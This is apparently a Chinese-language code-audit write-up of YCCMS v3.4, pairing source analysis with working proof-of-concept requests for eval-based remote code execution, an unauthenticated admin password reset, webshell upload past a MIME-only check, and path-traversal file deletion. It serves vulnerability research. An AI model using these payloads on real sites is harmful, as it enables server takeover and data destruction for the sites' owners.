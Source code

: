 ##  环境搭建

### 源码下载

CMS下载地址: http://ahdx.down.chinaz.com/202003/yccms_v3.4.rar

###  mvc

该CMS采用的是MVC框架,MVC全名是Model View Controller，是模型(model)－视图(view)－控制器(controller)的缩写。用一种业务逻辑、数据、界面显示分离的方法组织代码，将业
务逻辑聚集到一个部件里面，在改进和个性化定制界面及用户交互的同时，不需要重新编写业务逻辑。controller文件夹存放控制器文件,view文件夹存放视图文件,model文件夹存放数据文件
[![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061435927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200510140732-8920d82a-9284-1.png)

##  命令执行-RCE

###  POC

```
/admin?a=Factory();phpinfo();//../
```

![image-20220306143529038](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061435121.png)

###  源码分析

`/public/class/Factory.class.php`

```
<?php
class Factory{
	static private $_obj=null;
	static public function setAction(){
		$_a=self::getA();
		if (in_array($_a, array('admin', 'nav', 'article','backup','html','link','pic','search','system','xml','online'))) {
			if (!isset($_SESSION['admin'])) {
				header('Location:'.'?a=login');
			}
		}
		if (!file_exists(ROOT_PATH.'/controller/'.ucfirst($_a).'Action.class.php')) $_a = 'Login';
		eval('self::$_obj = new '.ucfirst($_a).'Action();');
		return self::$_obj;
	}
	
	static public function getA(){
		if(isset($_GET['a']) && !empty($_GET['a'])){
			return $_GET['a'];
		}
		return 'login';
	}
}

?>
```

`$_a`为`$_GET['a']`传入的值。

然后经过`file_exists`判断文件是否存在。如果不存在的话，` $_a = 'Login'`,存在的话，就直接执行`eval语句`。`$_a`是我们的控制点，我们需要通过eval来执行$_a的语句。



分析payload`a=Factory();phpinfo();//../`。其中`Factory()`是用来闭合前面的`new`,然后`eval`中可以执行多个语句，我们利用利用分号`;`执行多个语句。

最后面的`/../`,该函数允许传入路径中含有特殊符号，当目录中含有`/../`时会将第一个`/`前的内容当作一个目录处理，而他本身会返回上一个目录，这样就造成了中间字符的逃逸。`//../`也就满足了`file_exists`目录存在。



类被加载的地方，在`config/run.inc.php`，同时该文件在`admin/index.php`被文件包含，所以直接在admin/index.php,就可以执行payload

![image-20220306144533892](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061445969.png)

## 未授权管理员密码修改

### POC

```
POST /admin/?a=admin&m=update HTTP/1.1
username=admin&password=123456&notpassword=123456&send=%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81
```

![image-20220306145453927](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061454996.png)

看数据库中的`my_admin`,修改成功

![image-20220306151949206](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061519257.png)

###  源码分析

![image-20220306152106553](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061521767.png)

`send`的赋值随意，只有存在就行。

然后我们跟进`editAdmin()`函数

![image-20220306152708340](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061527452.png)

跟进父类的`update`函数

![image-20220306152839611](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061528655.png)

修改密码，这三段都没有对用户身份的验证，从而达到任意修改管理员密码。

登录成功。

![image-20220306152955170](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061529248.png)

##  文件上传--1

### POC

直接写马上传

![image-20220306153625108](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061536179.png)



访问`view/index/images/logo.php`

![image-20220306153610792](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061536860.png)

### 源码分析

定位到`controller/CallAction.class.php`

![image-20220306154445037](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061544367.png)



跟进`LogoUpload`，在`public/class/LogoUpload.class.php`

```
private $typeArr = array('image/png','image/x-png');

//验证类型
	private function checkType() {
		if (!in_array($this->type,$this->typeArr)) {
			Tool::alertBack('警告：LOGO图片必须是PNG格式！');
		}
	}
	

```

只对上传文件类型检验了，所以直接传马。

##  文件上传 --2

### POC

![image-20220224155934985](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061547199.png)

还是一样的

### 源码分析

定位到`controller/CallAction.class.php`

![image-20220306154905684](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061549834.png)



跟进`FileUpload`

```
private $typeArr = array('image/jpeg','image/pjpeg','image/png','image/x-png','image/gif');		//类型合集

//验证类型
	private function checkType() {
		if (!in_array($this->type,$this->typeArr)) {
			Tool::alertBack('警告：不合法的上传类型！');
		}
	}
```

还是只对上传文件类型检验了。

##  任意文件删除

###  POC

```
pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87
```

![image-20220306155527603](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061555660.png)

只需要更改pid[0]即可在无登录条件下任意删除文件，删除根目录下的1.txt

![image-20220306155613040](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061556107.png)

成功删除

![image-20220306155629765](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061556823.png)

###  源码分析

位置为`/controller/PicAction.class.php`

![image-20220306155946571](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203061559765.png)

对`pid`没有过滤，直接拼接路径，然后通过`unlink`删除一个文件。

##  参考文章

https://blog.csdn.net/cosmoslin/article/details/123178882?spm=1001.2014.3001.5502